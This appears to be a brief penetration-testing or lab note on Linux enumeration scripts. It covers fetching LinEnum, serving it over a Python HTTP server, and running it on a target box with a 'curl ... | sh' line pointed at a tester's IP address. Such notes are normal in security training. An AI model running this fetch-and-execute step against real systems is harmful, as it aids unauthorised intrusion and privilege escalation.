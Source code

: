 # Enumeration Scripts



[LinEnum](https://github.com/rebootuser/LinEnum) is getting a bit old but still useful:

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...
```

Switch to box pull over and execute:

```bash
curl http://10.9.17.195:8000/LinEnum.sh | sh
```
